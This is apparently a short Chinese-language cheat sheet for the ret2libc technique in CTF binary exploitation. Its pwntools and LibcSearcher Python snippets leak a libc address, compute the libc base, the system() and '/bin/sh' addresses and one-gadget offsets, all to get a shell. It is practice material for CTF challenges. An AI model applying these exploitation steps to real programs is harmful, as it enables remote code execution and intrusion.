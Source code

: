 ```yaml
---
title: ret2libc
category: ROP
---
```


## # 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

## # 接收被泄露的 libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

## # 计算地址

- 计算 libc 基址

```python
# ELF
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))

# LibcSearcher
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

- 计算 one gadget 地址

```python
one_gadget_list = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
one_gadget = libc_base + one_gadget_list[1]
log.success('one_gadget -> ' + hex(one_gadget))
```

## # 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。